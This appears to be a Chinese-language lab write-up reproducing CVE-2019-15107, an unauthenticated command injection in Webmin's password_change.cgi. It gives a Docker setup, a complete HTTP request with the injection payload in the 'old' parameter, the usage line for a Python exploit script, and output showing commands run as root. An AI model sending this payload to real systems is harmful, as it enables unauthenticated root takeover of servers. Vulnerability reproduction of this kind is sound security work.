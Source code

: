 # CVE-2019-15107 Webmin 远程命令执行漏洞

### 一、漏洞简介

Webmin是一个用于管理类Unix系统的管理配置工具，具有Web页面。在其找回密码页面中，存在一处无需权限的命令注入漏洞，通过这个漏洞攻击者即可以执行任意系统命令。

### 二、漏洞影响

Webmin <= 1.920

### 三、复现过程

环境搭建

执行如下命令，启动webmin 1.910：


```
docker-compose up -d
```

执行完成后，访问`https://url:10000`，忽略证书后即可看到webmin的登录页面。

#### 复现

参考链接中的数据包是不对的，经过阅读代码可知，只有在发送的user参数的值不是已知Linux用户的情况下（而参考链接中是user=root），才会进入到修改/etc/shadow的地方，触发命令注入漏洞。

发送如下数据包，即可执行命令id：


```bash
POST /password_change.cgi HTTP/1.1
Host:127.0.1:10000
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Cookie: redirect=1; testing=1; sid=x; sessiontest=1
Referer: https://your-ip:10000/session_login.cgi
Content-Type: application/x-www-form-urlencoded
Content-Length: 60

user=rootxx&pam=&expired=2&old=test|id&new1=test2&new2=test2
```

![](images/15893799971428.png)


python usage:


```
python CVE_2019_15107.py https://url:10000 cmd
```


```python
C:\Users\CTF\Desktop>python CVE_2019_15107.py https://10.10.20.166:10000 id

 _______           _______       _______  _______  __     _____       __    _______  __    _______  ______
(  ____ \|\     /|(  ____ \     / ___   )(  __   )/  \   / ___ \     /  \  (  ____ \/  \  (  __   )/ ___  \
| (    \/| )   ( || (    \/     \/   )  || (  )  |\/) ) ( (   ) )    \/) ) | (    \/\/) ) | (  )  |\/   )  )
| |      | |   | || (__             /   )| | /   |  | | ( (___) |      | | | (____    | | | | /   |    /  /
| |      ( (   ) )|  __)          _/   / | (/ /) |  | |  \____  |      | | (_____ \   | | | (/ /) |   /  /
| |       \ \_/ / | (            /   _/  |   / | |  | |       ) |      | |       ) )  | | |   / | |  /  /
| (____/\  \   /  | (____/\     (   (__/\|  (__) |__) (_/\____) )    __) (_/\____) )__) (_|  (__) | /  /
(_______/   \_/   (_______/_____\_______/(_______)\____/\______/_____\____/\______/ \____/(_______) \_/
                          (_____)                              (_____)
                                     python By jas502n



vuln_url= https://url:10000/password_change.cgi

Command Result = uid=0(root) gid=0(root) groups=0(root)
```

四、参考链接

https://www.pentest.com.tr/exploits/DEFCON-Webmin-1920-Unauthenticated-Remote-Command-Execution.html

https://www.exploit-db.com/exploits/47230

https://blog.firosolutions.com/exploits/webmin/